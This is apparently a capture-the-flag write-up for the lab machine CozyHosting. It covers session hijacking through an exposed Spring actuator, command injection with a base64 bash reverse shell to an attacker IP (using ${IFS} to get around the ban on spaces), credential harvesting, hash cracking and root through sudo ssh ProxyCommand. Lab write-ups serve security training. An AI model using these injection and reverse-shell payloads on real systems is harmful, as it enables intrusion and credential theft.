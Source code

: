 # CozyHosting
#activemachine 
#easy
#sql
#web 
#postgres 
#euid 
#hashcrack 
#commandinjection
#cookie 
### Reconnaissance
We started by running the command `nmap -sV -v $TARGET` to gather information about the target system. The output showed us the open ports, services, and version information. We noticed that port 22 (SSH) was open, also the port 80 (HTTP).
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
### Web Application Analysis
The web is going to be our entry point, so we go to it, after trying to enter we notice the URL has changed to `http://cozyhosting.htb/`  so we add it to /etc/hosts with `echo "${TARGET} cozyhosting.htb" | sudo tee -a /etc/hosts`.

Now we have a website which doesn't show any relevant information at first, so we keep searching to find a login, but it seems we cant do a sqli/bruteforce. As we didn't find nothing interesting with the manual search we perform a automatized search in order to see hidden places of the web, to do this run  `dirsearch -u http://cozyhosting.htb`
```
Target: http://cozyhosting.htb/

[19:37:47] Starting: 
[19:38:01] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[19:38:05] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[19:38:06] 400 -  435B  - /a%5c.aspx
[19:38:08] 200 -  634B  - /actuator
[19:38:08] 200 -   15B  - /actuator/health
[19:38:08] 200 -    5KB - /actuator/env
[19:38:08] 200 -   10KB - /actuator/mappings
[19:38:08] 200 -  345B  - /actuator/sessions
[19:38:08] 200 -  124KB - /actuator/beans
[19:38:09] 401 -   97B  - /admin
[19:38:31] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[19:38:31] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[19:38:31] 500 -   73B  - /error
[19:38:31] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[19:38:32] 200 -    0B  - /extjs/resources//charts.swf
[19:38:35] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[19:38:36] 200 -   12KB - /index
[19:38:39] 200 -    4KB - /login
[19:38:40] 200 -    0B  - /login.wdm%2e
[19:38:40] 204 -    0B  - /logout
[19:38:52] 400 -  435B  - /servlet/%C0%AE%C0%AE%C0%AF

Task Completed
```
We find 2 relevant things in this analysis the first one being the `/actuator` endpoints and the second one the `/admin`, we check first the admin one with no sucess because we need to be logged in, in order to enter there, so we check the other one which returns the following

```
{"_links":{"self":{"href":"http://localhost:8080/actuator","templated":false},"sessions":{"href":"http://localhost:8080/actuator/sessions","templated":false},"beans":{"href":"http://localhost:8080/actuator/beans","templated":false},"health-path":{"href":"http://localhost:8080/actuator/health/{*path}","templated":true},"health":{"href":"http://localhost:8080/actuator/health","templated":false},"env":{"href":"http://localhost:8080/actuator/env","templated":false},"env-toMatch":{"href":"http://localhost:8080/actuator/env/{toMatch}","templated":true},"mappings":{"href":"http://localhost:8080/actuator/mappings","templated":false}}}
```
There are more endpoints inside this one so we start by checking the most promising one which is `/actuator/sessions`, this one returns us a list of users with their associated sessions ID, we are going to use this one `kanderson`:`D26144FA5A9B80AF309A27B40327167A`

Now that we "have"  a session ID, we can go to `/admin`, intercept and modify the request with burpsuite and add our new session ID cookie to the request, after this we finally got access to the admin tab, here we can add new SSH connections to machines. We could pottentially exploit this so add a dummy SSH connection and we intercept the request in burpsuite, in order to play more with this request we can press `CTRL + R`, this send the request to the repeater where we can modify and sent it a lot of times.
After messing around with the request, it seems that we can inject commands in the username parameter this is because the website must be doing something like `ssh ${YOUR_USERNAME}@{YOUR_IP}`.

Knowing this we can perform a command injection, to prevent errors we are going to inject the desired command in base64, so first we generate the command which will be a reverse shell by running  `echo 'bash -c bash -i >&/dev/tcp/10.10.14.151/9000 0>&1' | base64`

Our command in base64 is `YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUxLzkwMDAgMD4mMQo=`
To upload the command the is one more thing we need to know, as we cant use spaces inside a HTTP parameter, we must find a way around it, in this case as the command is being interpreted by a shell we can trick the shell to recognize spaces where the HTTP doesn't see them by using the  ${IFS}, this variable has inside the separation character representation(by default space).

Finally we can upload the following command in the username `;echo${IFS}"YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUxLzkwMDAgMD4mMQo="|base64${IFS}-d|bash;`

Before sending the request we need to launch the reverse shell with `nc -lvp 9000`

### Lateral movement

As usual we improve our terminal by running `python3 -c 'import pty;pty.spawn("/bin/bash")'`, once in we see a file called `cloudhosting-0.0.1.jar`, after downloading it to our local machine and uncompressing it, we have a lot of files.

The one we are looking for is `BOOT-INF/classes/application.properties`, here we can find the following data which we can use to keep going.

```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
As we have the user,port and password of a database hosted in the server we can check its contents by running  `psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost:5432/cozyhosting"` on the server. Inside it as it is a Postgres database we can run `\dt` to list all the tables.

```
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

```
The users table may have some credentials inside it, so we select all its contents with `SELECT * FROM users;`
```

   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)
```
We have 2 usernames and their associated hashed password, as the hashes can be usefull we save them into a file, to perform a brute-force search using a word-list to check if we have any of the hashes passwords we run the following command and then `john -w=/usr/share/wordlists/rockyou.txt hashes`-
```
manchesterunited
```
With our brand new password we can perform a lateral movement and login as the user `kanderson`.  In the `/home` is the `user.txt` that contains the user flag.

### Privilege escalation
Start by checking if our user has some special id or if it is able to run any command as sudo, to do this `id && sudo -l`
```
uid=1003(josh) gid=1003(josh) groups=1003(josh)
(root) /usr/bin/ssh *
```
We can run ssh as sudo, so we check in https://gtfobins.github.io/gtfobins/ssh/ if there is any way to exploit this, and it seems to be so, we just need to run this `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`.
In the new terminal we check our user with `whoami`
```
root
```
We have successfully escalated privileges, now we can read the flag that is in in `/root/root.txt`
